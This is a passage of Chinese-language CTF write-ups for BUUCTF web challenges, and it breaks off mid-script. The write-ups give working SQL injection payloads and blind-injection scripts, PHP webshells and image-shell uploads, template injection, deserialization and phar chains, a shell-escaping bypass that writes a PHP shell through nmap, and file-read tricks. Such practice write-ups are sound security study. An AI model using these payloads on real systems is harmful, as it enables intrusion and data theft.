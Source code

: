 # MISC
## N种方法解决
下载文件，使用strings命令查看，发现是base64，解码后发现是一张二维码，扫码得到flag

----
## 

# Web
## [HCTF 2018]WarmUp  
应该算是我CTF生涯中第一道正式的web题了吧，不得不说首先打开这个网页看见一个滑稽我内心是崩溃的==  
既然啥都没有，那当然是要Ctrl+U看看源代码。  
<img src='1-1.png' width=50%>  
访问source.php  
<img src='1-2.png' width=50%>  
以我羸弱的php知识外加Google发现这里有一个Checkfile，如果发现文件路径($page)在白名单中(包含编码后的)，则直接返回true。  
接着访问hint.php  
<img src='1-3.png' width=50%>  
好像现在没什么卵用
回到刚刚的source.php，我们可以这样绕过：  
<img src='1-4.png' width=50%>  
得到flag

----

## [强网杯 2019]随便注  
这个注入太难顶了，以前做的那些都不叫啥玩意儿。fuzz下发现跳了个语句  
`return preg_match("/select|update|delete|drop|insert|where|\./i",$inject);`
去重修了以下sql发现还有很多语句没有过滤，先来试个`1';show tables#`，可以发现有两个表1919810931114514和words  
```
array(1) {
  [0]=>
  string(16) "1919810931114514"
}

array(1) {
  [0]=>
  string(5) "words"
}
```  
然后我们查看1919810931114514的内容：
```1';show columns from `1919810931114514`#```
如下
```
array(6) {
  [0]=>
  string(4) "flag"
  [1]=>
  string(12) "varchar(100)"
  [2]=>
  string(2) "NO"
  [3]=>
  string(0) ""
  [4]=>
  NULL
  [5]=>
  string(0) ""
}
```  
查看words的内容：
```1';show columns from `words`#```
如下
```
array(6) {
  [0]=>
  string(2) "id"
  [1]=>
  string(7) "int(10)"
  [2]=>
  string(2) "NO"
  [3]=>
  string(0) ""
  [4]=>
  NULL
  [5]=>
  string(0) ""
}

array(6) {
  [0]=>
  string(4) "data"
  [1]=>
  string(11) "varchar(20)"
  [2]=>
  string(2) "NO"
  [3]=>
  string(0) ""
  [4]=>
  NULL
  [5]=>
  string(0) ""
}
```  
好吧现在我又看不懂了qaq。不过既然flag在前面那个表，而且把select过滤了，我是真的不知道该怎么操作了。遂看wp，发现有个`prepare`预编译指令。先把```select * from `1919810931114514`;```char化，然后使用`set`指令将char化后的语句弄到一个变量里面，然后是用`prepare`把变量预编译，然后执行。当然也可以使用mysql的handler，```inject=';handler+`1919810931114514`+open;handler`1919810931114514`read+first%23```也是可以得到flag的。  
payload如下：
```
-1';set @a = CONCAT('se','lect * from `1919810931114514`;');prepare b from @a;EXECUTE b;#
```
获得flag

----
## [HGAME 2020]Cosmos的博客
看见提示说用了git，考虑githack，发现没有什么卵用，冥思苦想后访问`.git/config`，发现GitHub地址，访问后在历史记录中找到flag。

----
## [护网杯 2018]easy_tornado  
一开始就看到三个提示  
```
/flag.txt
/welcome.txt
/hints.txt
```
查看发现内容如下
```
node3.buuoj.cn/file?filename=/flag.txt&filehash=876c24991edc20a61fc400d87f906e58
/flag.txt
flag in /fllllllllllllag

node3.buuoj.cn/file?filename=/welcome.txt&filehash=90dd1edab19fecf7c8b769af3da6ef18
/welcome.txt
render

node3.buuoj.cn/file?filename=/hints.txt&filehash=54f48cbcbf5ea9c0b49720e19d601406
/hints.txt
md5(cookie_secret+md5(filename))
```
看见有render，修改filehash出现错误，链接为
```
node3.buuoj.cn/error?msg=Error
```
msg可控，猜测有模板注入，查资料后发现`handler.settings`储存有`cookie_secret`，于是尝试
```
node3.buuoj.cn/error?msg={{handler.settings}}
```
弹出设置
```
{'autoreload': True, 'compiled_template_cache': False, 'cookie_secret': 'f285519a-1ab3-4870-9180-1a0c5be8eda7'}
```
于是直接构造获得字符串md5加密flag

----
## [SUCTF 2019]EasySQL
看起来又是一个注入，随便输入了几个数字，发现0是没有回显的（好像没有什么卵用）。`1;show tables;`试试，发现有显示表名：
```
Array
(
    [0] => 1
)
Array
(
    [0] => Flag
)
```
然后尝试```1;show columns from `Flag` ```，好吧我知道出题人没这么sb。再来看看数据库`1;show databases;`，发现有点东西：
```
Array
(
    [0] => 1
)
Array
(
    [0] => ctf
)
Array
(
    [0] => ctftraining
)
Array
(
    [0] => information_schema
)
Array
(
    [0] => mysql
)
Array
(
    [0] => p
}
```
似乎也没啥卵用。fuzz了一下，显然是堆叠注入，但发现一大堆的关键字都被过滤了。查看了wp源码里面看到查询语句是`select $post['query']||flag from Flag`，可以发现这个||是逻辑运算符或，答案只能是0/1，所以要查询的话，就需要把||的作用去掉，按wp上的做法，用的是
```
1;set sql_mode=PIPES_AS_CONCAT;select 1
```
可以发现语句就变成了
```
select 1;set sql_mode=PIPES_AS_CONCAT;select 1||flag from Flag
```
`set sql_mode=PIPES_AS_CONCAT;`的意思就是把||视为字符串拼接，然后getflag。  
不过在翻看dalao博客的时候发现了这个东西`select *,1||flag from Flag`，好吧我确实是没有想到还有这种操作的。

----
## [HCTF 2018]admin
好吧，第一次看见这么现代化的题目，着实搞得我比较懵，首先尝试登录admin，无法确定admin是否存在，于是打开注册页面，注册admin，发现有admin账户，然后，然后就不知道怎么搞了qaq。当个正常用户试试注册，然后当然是成功注册，就没有然后了，放弃这题。
>更新，后来看见buu里面就这个题在前面空着感觉很不爽，于是又来做一做。  
打开index页面html有注释：
```
<!-- you are not admin -->
```
好吧我知道不是admin qaq。在change页面发现了这个：
```
<!-- https://github.com/woadsl1234/hctf_flask/ -->
```
终于有点思绪了啊啊啊啊。clone下来，出题人竟然也是用的vscode。

----
## [强网杯 2019]高明的黑客
一打开发现了一大堆奇怪的源码，然后发现了有一大堆的system，不过执行条件看得我很懵好吗
```
if('V8dfwnVA5' == 'n3Ofh5nSW')
system($_POST['V8dfwnVA5'] ?? ' ');
```
这样的东西是什么鬼啊，这个还怎么tmd执行。猜测总有可以用的一个webshell，于是，开始暴力。遍历每一个文件的每一个传参位置，总会有正确的一个。用python写个脚本，让它自动跑一跑。（加上了进度条，不然看着总以为没动静）
```
import os
import requests
import re
import progressbar

FilePath = './src/'
files = os.listdir(FilePath)
url = 'http://8e790631-8693-48d7-a070-a30a598d21ca.node3.buuoj.cn/'
p = progressbar.ProgressBar(len(files))
cnt = 0

def get_params(name):
    ans = []
    name = FilePath + name
    phpfile = open(name, 'r')
    get = re.compile(r"GET\['(.+?)'\]")
    post = re.compile(r"POST\['(.+?)'\]")
    getnum = re.findall(get, phpfile.read())
    postnum = re.findall(post, phpfile.read())
    ans.append(getnum)
    ans.append(postnum)
    return ans

def send(params, filename):

    ans1 = ''
    ans2 = ''

    for param_get in params[0]:
        get = requests.get(url + filename + '?' + param_get + '=cat /flag')
        ans1 = re.findall(r'flag*', get.text)
        if ans1 != []:
            return param_get

    for param_post in params[1]:
        post = requests.post(url + filename, data={param_post: 'cat /flag'})
        ans2 = re.findall(r'flag*', post.text)
        if ans2 != []:
            return param_post
    
    return False

if __name__ == '__main__':
    for i in files:
        try:
            params = get_params(i)
            ans = send(params, i)
            if ans != False:
                print('php file is:' + i + ' and the param is:' + ans)
                exit()
            cnt += 1
            p.update(cnt)
        except:
            pass
```
成功getflag

----
## [RoarCTF 2019]Easy Calc
一打开发现是一个计算器，查看源码后发现有一个`calc.php`，并且传入了一个参数`num`来实现计算功能。代码如下：
```
<?php
error_reporting(0);
if(!isset($_GET['num'])){
    show_source(__FILE__);
}else{
        $str = $_GET['num'];
        $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]','\$','\\','\^'];
        foreach ($blacklist as $blackitem) {
                if (preg_match('/' . $blackitem . '/m', $str)) {
                        die("what are you want to do?");
                }
        }
        eval('echo '.$str.';');
}
?>
```
明确的是要绕过检测，那我们使用
```
calc.php? num=var_dump(scandir(chr(47)))
```
加一个空格，可以使get得到为有空格的变量，而解析的时候变成没有空格的变量。过滤了目录符号，我们使用chr(47)来绕过。可以发现目录结构如下：
```
array(24) { 
    [0]=> string(1) "." 
    [1]=> string(2) ".." 
    [2]=> string(10) ".dockerenv" 
    [3]=> string(3) "bin" 
    [4]=> string(4) "boot" 
    [5]=> string(3) "dev" 
    [6]=> string(3) "etc" 
    [7]=> string(5) "f1agg" 
    [8]=> string(4) "home" 
    [9]=> string(3) "lib" 
    [10]=> string(5) "lib64" 
    [11]=> string(5) "media" 
    [12]=> string(3) "mnt" 
    [13]=> string(3) "opt" 
    [14]=> string(4) "proc" 
    [15]=> string(4) "root" 
    [16]=> string(3) "run" 
    [17]=> string(4) "sbin" 
    [18]=> string(3) "srv" 
    [19]=> string(8) "start.sh" 
    [20]=> string(3) "sys" 
    [21]=> string(3) "tmp" 
    [22]=> string(3) "usr" 
    [23]=> string(3) "var" 
}
```
发现有一个`f1agg`，于是查看：
```
/calc.php?%20num=var_dump(file_get_contents(chr(47).chr(102).chr(49).chr(97).chr(103).chr(103)))
```

----
## [SUCTF 2019]CheckIn
看题目像是一道签到题==。打开发现是一个文件上传的页面。尝试上传一个php文件，显而易见的是会显示非法的。  
于是我们准备一个一句话木马，修改文件后缀后传入，文件名为`test.ppp`
```
<?php eval(@$_GET['a']); ?>
```
好吧这个签到题并没有我想的这么简单，提示了
```
<? in contents!
```
看起来是对文件内容进行了过滤。所以我们随便整点东西进去，发现有提示：
```
exif_imagetype:not image!
```
好吧，看起来要加一个图像文件头。`BM`是bmp文件头，加上过后发现上传成功：
```
Your dir uploads/2c67ca1eaeadbdc1868d67003072b481
Your files :
array(4) { 
    [0]=> string(1) "."
    [1]=> string(2) ".."
    [2]=> string(9) "index.php"
    [3]=> string(8) "test.ppp" 
}
```
看起来我们可以准备一个长得像这样的图片马：
```
BM
<script language="php">eval($_GET['a']);</script>
```
由于要使图片马运行，则需要将文件解析为php代码，于是经过查找资料，发现修改`.htaccess`和`.user.ini`可以实现这一点，而经过测试发现这是个nginx，`.htaccess`是apache专用，于是就修改后者。
```
BM
auto_prepend_file=a.jpg
```
这样就可以实现运行每个php文件后都会自动解析a.jpg作为php代码。
然后`var_dump(scandir('/'))`发现存在`/flag`，查看内容，`var_dump(file_get_content('/flag'))`得到flag

----
## [CISCN2019 华北赛区 Day2 Web1]Hack World
看起来是个布尔盲注，进行测试，发现查询成功是true，错误是false，fuzz后发现大部分的语句都没有被过滤，并且空格可用(或者)绕过。  
使用`id=1=1`和`id=1=0`输出不一致进行注入。  
编写脚本：
```
import requests
import string

url = 'http://3a5eb2a7-2181-43b5-8d42-bf30a66184b4.node3.buuoj.cn'
flag = ''

if __name__ == "__main__":
    printablelist = string.printable
    for i in range(1, 50):
        for j in printablelist:
            res = requests.post(url, data={'id': '1=if(ascii(substr((select(flag)from(flag)),%d,1))=%d,1,2)' % (i, ord(j))})
            if 'Hello' in res.text:
                flag += j
                print(flag)
                break
```
得到flag

----
## [De1CTF 2019]SSRF Me
打开看到的是一大堆乱码，看得我一脸懵逼。查看源码后发现这是用flask写的，里面有几个路由
- `/geneSign`可由post和get接受param的文件路径并和scan与secret_key生成一个md5作为签名
- `/De1ta`由cookie接受action和sign，另由post或get接受param，显示action的操作结果
- `/`直接打开就是显示源代码
  
要注意一下的就是里面生成签名只能由`/geneSign`路由生成，但是很显然的发现我们需要生成一个有效的action为read的签名才能对scan得到的文件进行读取得到flag。  
查找资料后发现这是一个典型的哈希长度拓展攻击伪造签名。  
大概意思就是当知道`hash(secret + message)`的值及`secret`长度的情况下，可以推算出`hash(secret + message + padding + m)`。在这里`m`是任意数据，`padding`是`secret`后的填充字节，`message`是之前的已知数据。  
对于本题，我们可以发现，计算签名的方法是`md5(secert_key + param + action)`，我们可以控制的有两个量，`param`和`action`，联系哈希长度攻击的特点，攻击点显然就在最后面的`action`。  
- 已知量：`/geneSign`获得的签名`md5(secert_key + 'flag.txt' + 'scan')`  
- 伪造量：`md5(secert_key + 'flag.txt' + 'scanread')`
  
于是步骤就显而易见了。  
```
hashpumpy.hashpump('ad25170d3a7ea6b2c1d5e5b3c3afd8ca','flag.txtscan','read',16)
#hashpump中，第一个参数是已知的md5，第二个参数是原message，第三个是攻击数据，最后一个是key长度
```
得到flag

----
## [网鼎杯 2018]Fakebook
打开看起来像是一个留言板，随便注册一个账号，发现blog那里只能填链接，于是就填了个baidu.com，之后登录发现，网页里面有一个iframe，但是没有内容qaq。测试了一下admin，竟然注册成功了wdnmd。  
用burpsuite扫了一下，发现有`robots.txt`且存在注入。  
查看robots.txt
```
User-agent: *
Disallow: /user.php.bak
```
发现有源码泄露
```
class UserInfo
{
    public $name = "";
    public $age = 0;
    public $blog = "";

    public function __construct($name, $age, $blog)
    {
        $this->name = $name;
        $this->age = (int)$age;
        $this->blog = $blog;
    }

    function get($url)
    {
        $ch = curl_init();

        curl_setopt($ch, CURLOPT_URL, $url);
        curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
        $output = curl_exec($ch);
        $httpCode = curl_getinfo($ch, CURLINFO_HTTP_CODE);
        if($httpCode == 404) {
            return 404;
        }
        curl_close($ch);

        return $output;
    }

    public function getBlogContents ()
    {
        return $this->get($this->blog);
    }

    public function isValidBlog ()
    {
        $blog = $this->blog;
        return preg_match("/^(((http(s?))\:\/\/)?)([0-9a-zA-Z\-]+\.)+[a-zA-Z]{2,6}(\:[0-9]+)?(\/\S*)?$/i", $blog);
    }
}
```
并且`view.php`页面存在注入。尝试注入时，`union select`会显示hack，于是使用注释符号绕过`union/**/select`。使用`order by`测试出查询有4个字段。注入：
```
-1 union/**/select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema=database()
```
获得表`users`
```
-1 union/**/select 1,group_concat(column_name),3,4 from information_schema.columns where table_name='users'
```
获得列`no,username,passwd,data,USER,CURRENT_CONNECTIONS,TOTAL_CONNECTIONS`
```
-1 union/**/select 1,data,3,4 from users where name='123'
```
发现序列化数据`O:8:"UserInfo":3:{s:4:"name";s:3:"123";s:3:"age";i:123;s:4:"blog";s:9:"baidu.com";} `。  
使用注入访问`file:///var/www/html/flag.php`
```
-1 union/**/select 1,2,3,'O:8:"UserInfo":3:{s:4:"name";s:7:"abelche";s:3:"age";i:123;s:4:"blog";s:29:"file:///var/www/html/flag.php";}'
```
得到flag

----
## [极客大挑战 2019]Havefun
f12查看源码即可解题

----
## [极客大挑战 2019]EasySQL
常识题  
```
username=admin
password=1 or 1=1#
```

----
## [RoarCTF 2019]Easy Java
进去是一个登陆页面，先尝试注入，尼玛完全没反应。查看源码后发现有一个`Download?filename=help.docx`，访问没有反应，尝试改为post，得到文件内容，恢复为docx：
```
Are you sure the flag is here? ? ?
```
看起来没啥卵用。查过资料后发现，java里面有一个WEB-INF文件夹，专门放不可直接访问的网页。
```
WEB-INF主要包含一下文件或目录:
/WEB-INF/web.xml：Web应用程序配置文件，描述了 servlet 和其他的应用组件配置及命名规则。
/WEB-INF/classes/：含了站点所有用的 class 文件，包括 servlet class 和非servlet class，他们不能包含在 .jar文件中
/WEB-INF/lib/：存放web应用需要的各种JAR文件，放置仅在这个应用中要求使用的jar文件,如数据库驱动jar文件
/WEB-INF/src/：源码目录，按照包名结构放置各个java文件。
/WEB-INF/database.properties：数据库配置文件
漏洞检测以及利用方法：通过找到web.xml文件，推断class文件的路径，最后直接class文件，在通过反编译class文件，得到网站源码
```
那我们就先看看这个`/WEB-INF/web.xml`，发现`FlagController`，查看文件`/WEB-INF/classes/FlagController.class`  
得到flag

----
## [极客大挑战 2019]Secret File
burpsuite抓包发现有`secr3t.php`，访问后发现是一个文件查看。使用
```
php://filter/read=convert.base64-encode/resource=flag.php
```
php伪协议绕过，发现flag

----
## [0CTF 2016]piapiapia
打开是一个登陆页面，用御剑扫，发现有`register.php`，`config.php`，用dirscan扫，发现了源码备份文件`www.zip`：
```
static
upload
class.php       #类
config.php      #连接mysql服务器配置
index.php       #登录页面
profile.php     #反序列化加载用户数据
register.php    #注册页面
update.php      #新增用户数据，序列化写入数据库
```
`class.php`中写了一个`user`类继承自`mysql`类，将`config.php`包含，`config.php`里面有连接`mysql`的相关信息，可以发现有个`flag`变量。  
传文件的时候成功传了一个马上去，但是并没有找到解析为php的方法。本题用了序列化，猜测是利用反序列化字符串逃逸读取config中的内容。
```
$profile['phone'] = 12345678901;
$profile['email'] = 'v@v.v';
$profile['nickname'] = 'vc';
$profile['photo'] = 'upload/' . md5($file['test.php']);
serialize($profile);
```
序列化后是
```
a:4:{s:5:"phone";i:12345678901;s:5:"email";s:5:"v@v.v";s:8:"nickname";s:2:"vc";s:5:"photo";s:39:"upload/93bc3c03503d8768cf7cc1e39ce16fcb";}
```
序列化以后，`filter`方法会将`where`替换为`hacker`，刚好多了一个长度。并且`phone`和`email`都是限制死了，只有`nickname`有点操作空间，大概思路就是构造一个带有`where`并且`photo`为`config.php`的字符串提交上去，程序将替换多出来的字符顶替提交上去的`photo`字段。  
这时发现`nickname`有长度限制，我们需要使用数组来绕过`strlen`。  
我们所需要添加的序列化字符串为
```
";}s:5:"photo";s:10:"config.php";}
```
要添加34个字符才能把这一串挤出去，于是就要添加34个where在前面
```
wherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewherewhere";}s:5:"photo";s:10:"config.php";}
```
得到flag

----
## [极客大挑战 2019]PHP
打开是一个页面：
```
因为每次猫猫都在我键盘上乱跳，所以我有一个良好的备份网站的习惯 
```
盲猜是源码泄露，`www.zip`，竟然一下就猜到了，文件如下：
```
class.php
flag.php
index.js
index.php
style.css
```
`index.php`这里也是用到了反序列化。这里的反序列化是直接运行，没有进行任何的判断。于是我们使用反序列化来修改，要注意一下的就是类中的权限问题，对于Public当然名字就没改变，对于Private，格式应该是`%00类名%00属性名`，Protect是`%00*%00属性名`。于是构造payload如下：
```
O:4:"Name":10:{s:14:"%00Name%00username";s:5:"admin";s:14:"%00Name%00password";i:100;}
```
得到flag

----
## [极客大挑战 2019]Knife
打开是一个页面
```
我家菜刀丢了，你能帮我找一下么
eval($_POST["Syc"]);
```
显然是一个一句话。用burp直接提交，没反应，尝试菜刀，可以过，对比header后发现需要加上`Content-Type: application/x-www-form-urlencoded`  
得到flag

----
## [SUCTF 2019]Pythonginx
打开就能看见源码。看起来是一个绕过：
```
@app.route('/getUrl', methods=['GET', 'POST'])
def getUrl():
    url = request.args.get("url")
    host = parse.urlparse(url).hostname
    if host == 'suctf.cc':
        return "我扌 your problem? 111"
    parts = list(urlsplit(url))
    host = parts[1]
    if host == 'suctf.cc':
        return "我扌 your problem? 222 " + host
    newhost = []
    for h in host.split('.'):
        newhost.append(h.encode('idna').decode('utf-8'))
    parts[1] = '.'.join(newhost)
    #去掉 url 中的空格
    finalUrl = urlunsplit(parts).split(' ')[0]
    host = parse.urlparse(finalUrl).hostname
    if host == 'suctf.cc':
        return urllib.request.urlopen(finalUrl).read()
    else:
        return "我扌 your problem? 333"
```
使用了三种方法过滤，找到了一个[资料](https://i.blackhat.com/USA-19/Thursday/us-19-Birch-HostSplit-Exploitable-Antipatterns-In-Unicode-Normalization.pdf)。
抄到一个脚本：
```
from urllib.parse import urlparse,urlunsplit,urlsplit
from urllib import parse
def get_unicode():
    for x in range(65536):
        uni=chr(x)
        url="http://suctf.c{}".format(uni)
        try:
            if getUrl(url):
                print("str: "+uni+' unicode: \\u'+str(hex(x))[2:])
        except:
            pass


def getUrl(url):
    url = url
    host = parse.urlparse(url).hostname
    if host == 'suctf.cc':
        return False
    parts = list(urlsplit(url))
    host = parts[1]
    if host == 'suctf.cc':
        return False
    newhost = []
    for h in host.split('.'):
        newhost.append(h.encode('idna').decode('utf-8'))
    parts[1] = '.'.join(newhost)
    finalUrl = urlunsplit(parts).split(' ')[0]
    host = parse.urlparse(finalUrl).hostname
    if host == 'suctf.cc':
        return True
    else:
        return False

if __name__=="__main__":
    get_unicode()
```
我们使用`str: Ｃ unicode: \uff23`字符来绕过来查看`/usr/local/nginx/conf/nginx.conf`
```
file://suctf.cＣ/../../../../../usr/local/nginx/conf/nginx.conf
```
然后发现有个
```
file://suctf.cＣ/../../../../../usr/fffffflag
```
得到flag

----
## [CISCN2019 华北赛区 Day1 Web1]Dropbox
打开也是登录页，注入测试后没有反应，于是`dirsearch`扫后台，发现有
```
[09:27:03] 302 -    0B  - /php  ->  login.php
[09:27:03] 400 -  154B  - /%2e%2e/google.com
[09:28:46] 302 -    0B  - /adminphp  ->  login.php                               
[09:32:02] 302 -    0B  - /delete.php  ->  login.php                                                              
[09:33:25] 302 -    0B  - /index.php  ->  login.php                                                            
[09:34:08] 200 -    1KB - /login.php                                                                    
[09:34:43] 302 -    0B  - /myadminphp  ->  login.php            
[09:36:02] 200 -    1KB - /register.php                                                        
[09:36:51] 301 -  185B  - /static  ->  http://8855b362-a6d4-4711-b2c2-ce02a6d410d1.node3.buuoj.cn/static/         
[09:37:35] 302 -    0B  - /upload.php  ->  login.php                                   
[09:37:38] 301 -  185B  - /uploads  ->  http://8855b362-a6d4-4711-b2c2-ce02a6d410d1.node3.buuoj.cn/uploads/
[09:37:38] 403 -  571B  - /uploads/
```
另外还有`download.php`。可以猜测上传文件内容是放在uploads里面。测试上传php文件，失败。更改为gif后缀并加上`GIF89a`文件头上传成功。在burp中修改下载文件为`../../index.php`，把源码统统下载下来：
```
class.php       #三个类
delete.php      #删除文件
download.php    #下载文件
index.php       #
register.php    #
upload.php      #
```
尝试下载系统文件，成功，但是发现download里面专门ban掉了`flag` qaq。  
不过发现类中有魔术方法，`User`类：
```
__construct()
__destruct()
```
只对数据库进行了打开和关闭的操作，无法利用。`FileList`类：
```
__construct()   #创建新对象时运行
__call()        #对象调用的方法不存在时运行
__destruct()    #销毁对象时运行
```
有可控的操作文件的变量，可加以利用。  
payload：
```
<?php
class User {
    public $db;
}
class File {
    public $filename;
}
class FileList {
    private $files;
    public function __construct() {
        $file = new File();
        $file->filename = "/flag.txt";
        $this->files = array($file);
    }
}

$a = new User();
$a->db = new FileList();

$phar = new Phar("phar.phar");
$phar->startBuffering();
$phar->setStub("<?php __HALT_COMPILER(); ?>");
$phar->setMetadata($a);
$phar->addFromString("exp.txt", "test");
$phar->stopBuffering();
?>
```
要注意的是上传的时候要将phar文件后缀更改为gif，而更改后缀的文件依旧可以被各种函数识别为phar文件，也就是说，是否为phar文件，只取决于文件内容，并且与文件内容的开头也没有关系，下面这样也可以正常运行。
```
文件名：phar.gif
GIF89a<?php xxxxxxx ?>
```
在del的时候在burp里面把filename改为phar://phar.gif即可  
大概思路如下  
1. 利用delete.php中调用的`$file->open()`中含有的`file_exists`触发phar反序列化解析。
2. 使用`User`类的`db`中调用了一次的`close`，将`db`设为`Filelist`类的对象，调用`Filelist`中不存在的`close`方法。
3. `close`方法不存在于`Filelist`，就会自动运行`__call()`方法。
4. `__call`方法的代码就会调用`Filelist`中新建的`File`类`file`对象中，不存在于`Filelist`类中的`close`方法，即调用`File`中的`close`方法。
5. `close`方法中会使用`file_get_contens()`函数，这个函数的返回值会储存在`Filelist`中的`result`里面。
6. `result`又会被`__destruct()`方法显示，得到flag

----
## [极客大挑战 2019]LoveSQL
一看就是个注入，然后使用
```
username = admin
password = 1'or 1=1
```
登陆成功，发现密码是一个字符串，我竟然以为这就是flag，于是提交，现实显然没有这么简单。  
于是测试
```
check.php?username=admin&password=1'or 1=1 order by 4%23
```
可以发现只有三个参数，这里要注意一下`%23`和`#`，后者会报错qaq。
然后联合注入：
```
#测试参数显示
check.php?username=admin&password=1'or 1=1 union select 1,2,3 order by 3 ASC%23

#获取表名
check.php?username=admin&password=1'or 1=1 union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database() order by 2 ASC%23
'geekuser,l0ve1ysq1'

#获取列名
check.php?username=admin&password=1'or 1=1 union select 1,2,group_concat(column_name) from information_schema.columns where table_name='geekuser' order by 2 ASC%23
'id,username,password'

#查看username
check.php?username=admin&password=1'or 1=1 union select 1,2,group_concat(username) from 'l0ve1ysq1' order by 2 ASC%23
'cl4y,glzjin,Z4cHAr7zCr,0xC4m3l,Ayrain,Akko,fouc5,fouc5,fouc5,fouc5,fouc5,fouc5,fouc5,fouc5,leixiao,flag'

#读取flag
check.php?username=admin&password=1'or 1=1 union select 1,2,group_concat(password) from l0ve1ysq1 where username='flag' order by 2 ASC%23
'flag{be6b367b-2444-42e2-a40b-0d5e3cf59cd4}'
```
得到flag

----
## [BUUCTF 2018]Online Tool
打开显示源码：
```
<?php

if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
    $_SERVER['REMOTE_ADDR'] = $_SERVER['HTTP_X_FORWARDED_FOR'];
}

if(!isset($_GET['host'])) {
    highlight_file(__FILE__);
} else {
    $host = $_GET['host'];
    $host = escapeshellarg($host);
    $host = escapeshellcmd($host);
    $sandbox = md5("glzjin". $_SERVER['REMOTE_ADDR']);
    echo 'you are in sandbox '.$sandbox;
    @mkdir($sandbox);
    chdir($sandbox);
    echo system("nmap -T5 -sT -Pn --host-timeout 2 -F ".$host);
}
```
主要的问题出在这两行上面：
```
$host = escapeshellarg($host);
$host = escapeshellcmd($host);
```
`escapeshellarg`函数是将已有的字符串加上单引号，并且将字符串中原有的单引号转义。`escapeshellcmd`函数是对特殊字符进行转义，并对不配对的单引号进行转义。  
所以我们可以直接给命令加上单引号包裹然后传给host。假设要加入的命令为`xxx`，步骤如下：  
1. `escapeshellarg`处理为```'xxx'```
2. 然后为转义的单引号两边的字符串都加上单引号包裹（空的也要加哦）```''\''xxx'\'''```
3. `escapeshellcmd`处理为```''\\''xxx'\\'''```

所以最后执行的命令就是`\\xxx\`，在命令开头的地方加上看空格就可以忽略前面的反斜杠。还要利用的一个东西就是nmap的`-oG`参数，可以写入文件。  
payload：
```
host=' <?php echo `cat /flag`; ?> -oG test.php '
```
查看沙盒test.php，得到flag

----
## [ZJCTF 2019]NiZhuanSiWei
打开是源码：
```
<?php
$text = $_GET["text"];
$file = $_GET["file"];
$password = $_GET["password"];
if(isset($text)&&(file_get_contents($text,'r')==="welcome to the zjctf")){
    echo "<br><h1>".file_get_contents($text,'r')."</h1></br>";
    if(preg_match("/flag/",$file)){
        echo "Not now!";
        exit();
    }else{
        include($file);  //useless.php
        $password = unserialize($password);
        echo $password;
    }
}
else{
    highlight_file(__FILE__);
}
?> 
```
可以看见首先要绕过第一个`if`，我们使用`data`协议绕过：
```
text=data:text/plain,welcome to the zjctf
```
然后是第二个绕过，可以发现过滤了flag，尝试访问flag.php发现有这个文件，因此断定flag就在这里，并且看见后面有一个反序列化。
file这里有一个文件包含，使用php伪协议读取php源码。
```
file=php://filter/read=convert.base64-encode/resource=useless.php
```
usless.php源码：
```
<?php  
class Flag{  //flag.php  
    public $file;  
    public function __tostring(){  
        if(isset($this->file)){  
            echo file_get_contents($this->file); 
            echo "<br>";
        return ("U R SO CLOSE !///COME ON PLZ");
        }  
    }  
}  
?>  
```
显然可以看出这是为后面的反序列化准备的，我们使用序列化对其进行利用。
```
O:4:"Flag":1:{s:4:"file";s:8:"flag.php";}
```
将file修改为useless.php。  
得到flag

----
## [极客大挑战 2019]Http
打开是一个介绍页面，html代码中也没有什么可疑的地方，然后burp扫描，发现了一个Secret.php，打开是一行文字：
```
It doesn't come from 'https://www.Sycsecret.com'
```
好吧这个太明显了，修改header中的Refer为`https://www.Sycsecret.com`即可。  
结果又跳出来一个：
```
Please use "Syclover" browser
```
好吧，修改UA为`Syclover`，但是竟然又跳出来一个
```
No!!! you can only read this locally!!!
```
好吧，修改XFF为`127.0.0.1`。  
得到flag

----
## [CISCN2019 华北赛区 Day1 Web2]ikun
打开是一个购买页面，登录admin，失败，注册用户，所有信息均填a，注册成功。发现注释中有：
```
<!--这题脑洞确实有点大,所以我们留了些hint,请注意!-->
<!--ikun人肉并祭天了潜伏已久黑粉程序员,永远不要惹我们家kunkun!-->
<!--但是这个黑粉头子好像留了很多漏洞,有没有好心人帮我们家kunkun找出漏洞?!-->
```
并且在每一个商品页面都有以下类似标签：
```
<input type="hidden" name="_xsrf" value="2|75356c41|e65c4d433e12b5e371293c8cdd3dd10b|1581594433"/>
```
题目是说要购买的lv6，找了好几页并没有找到lv6，不过访问了以下lv6对应的链接发现是有这个东西的，于是我们想到要写个脚本帮我们找，使用二分法找到最后一页：
```
import requests
import re

